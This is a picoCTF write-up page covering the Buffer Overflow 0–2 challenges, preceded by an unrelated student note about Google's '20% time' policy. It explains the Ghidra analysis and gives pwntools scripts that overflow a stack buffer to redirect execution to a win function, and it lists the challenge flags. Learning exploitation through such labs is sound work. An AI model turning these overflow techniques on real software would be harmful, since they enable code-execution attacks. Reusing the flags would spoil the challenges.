


> Forenote

```md
Google's “20% Time”, inspired by Sergey Brin's and Larry Page's Montessori School experience, is a philosophy and policy that every Google employee spends 20% of their time (the equivalent of a full work day each week) working on ideas and projects that interest that employee. Ideas like Gmail, Google News, and AdSense have been developed from this working model. 

This website is a project I am working on in my senior English literature and composition course. During this project I will be spending 20% of my class time working on developing my idea through a progressive process to its final product. This website will be a space where I update visitors on the progress of my idea for this project. Thank you for visiting and I hope you follow along on my journey.

D’Onfro, Jillian. “The Truth about Google’s Famous ‘20% Time’ Policy.” Business Insider, Business Insider, 17 Apr. 2015, http://www.businessinsider.com/google-20-percent-time-policy-2015-4  
```

# Buffer Overflow 0

Spam A's

> picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}

# Buffer Overflow 1



When opening up the file in ghidra we have three functions we need to keep track of, main, vuln, and win. 

We load into the vuln function from main, in which we see what is above.

We seem to have to overflow the buffer for `local_2c`, then set it to the win address to get the flag.

Luckily, ghidra variables are set in a way that the variable names are equivalent to the amount of space the variable takes. In this case, `2c` space in hex.

```python
from pwn import *

bin = context.binary = ELF("./vuln")

#p = process(bin.path)
p = remote("saturn.picoctf.net", 62247)

payload = b""
payload += 0x2c*b"A"
payload += p64(bin.symbols["win"]) + b"\n"
p.sendline(payload)
p.interactive()
```

Using the script above, we got the flag

> picoCTF{addr3ss3s_ar3_3asy_c76b273b}

# Buffer Overflow 2

This time it is the same idea as before, however we have a problem. 



We have to add arguments to the win function to able to "win".

We are able to do this by packing the negative hex variables after calling the win function.

This replaces param1 and param2.

```python
from pwn import *

bin = context.binary = ELF("./vuln2")

#p = process(bin.path)
p = remote("saturn.picoctf.net", 55779)

payload = b""
payload += 0x70*b"A"
payload += p32(bin.symbols["win"])
payload += asm("nop")*4
payload += pack(-0x35010ff3)
payload += pack(-0xff20ff3)
p.sendline(payload)
p.interactive()
```

This is the flag.

> picoCTF{argum3nt5_4_d4yZ_31432deb}
